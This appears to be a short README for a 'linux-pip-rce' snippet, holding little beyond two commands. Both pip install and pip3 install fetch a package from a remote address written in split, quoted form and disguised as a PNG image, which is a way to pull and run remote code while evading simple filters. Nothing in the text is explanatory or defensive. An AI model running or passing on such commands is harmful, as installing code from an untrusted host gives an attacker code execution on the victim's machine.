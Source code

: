 # linux-pip-rce

pip install "http://1"."2"."3"."4/Rce.png" </br>
pip3 install "http://1"."2"."3"."4/Rce.png"
